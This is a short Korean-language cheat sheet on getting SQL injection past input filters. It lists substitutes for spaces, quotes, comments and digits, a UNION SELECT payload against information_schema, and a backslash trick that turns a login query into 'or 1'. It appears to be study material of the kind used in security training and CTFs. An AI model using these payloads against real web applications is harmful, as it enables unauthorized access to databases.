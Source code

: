 





# 필터링 우회

## 공백 필터링

먼저 공백문자는 다음 키워드들로 대체할 수 있다.
' ' → /**/, %09, %0a, %0b, %0c, %0d, %a0, +, %20

공백문자을 대체하는 키워드들이 막혔을 경우, ()를 사용할 수 있다.
select * from table 라는 쿼리와 select(*)from(table) 이라는 쿼리가 동일하다.
?id=(1)and(1)=(0)union(select(null),table_name,(null)from(information_schema.tables))#

## '(싱글쿼터) 필터링

- 더블 쿼트(") 사용

?id="admin"

- 0x,0b를 사용해서 16진법,2진법으로 치환한다.

'admin' → 0x2761646d696e27
환경에 따라서 x,b만 사용해도 된다.

0x, 0b 대신 36 진법을 사용해도 된다.
select conv(10,10,36)='A'
또한 가젯에서 추출하는 방법도 있다.
select substr(monthname(from_unixtime(1)),2,1)='a' // monthname(from_unixtime(1)) = 'January'

- 백슬래시(\\) 사용

파라미터가 2개 이상인 제한적인 상황에서 사용 가능
?id=\&pw= or 1#
<br>
select id from table where id='$_GET[id]' and pw='$_GET[pw]'
<br>
select id from table where id='\' and pw=' or 1#'
<br>
id로 넘긴 \에 의해 바로 뒤의 '(싱글쿼터)가 문자로 인식되고, 결국 where id=\' and pw=' or 1로 쿼리가 넘어간다.

## 주석 필터링

#, -- 등의 주석이 필터링 되었을 경우에는 ;%00, /* 를 대신 사용할수도 있다. (Null문자는 magic_quotes_gpc 의 영향을 받음을 주의하자)

'#'의 주석범위는 한 줄이라서 %0a

## 숫자 필터링

숫자를 사용할 수 없는 경우에는 auto type cast 를 사용해서 우회한다.
false = 0
true = 1
true+true = 2
floor(version()) = 5

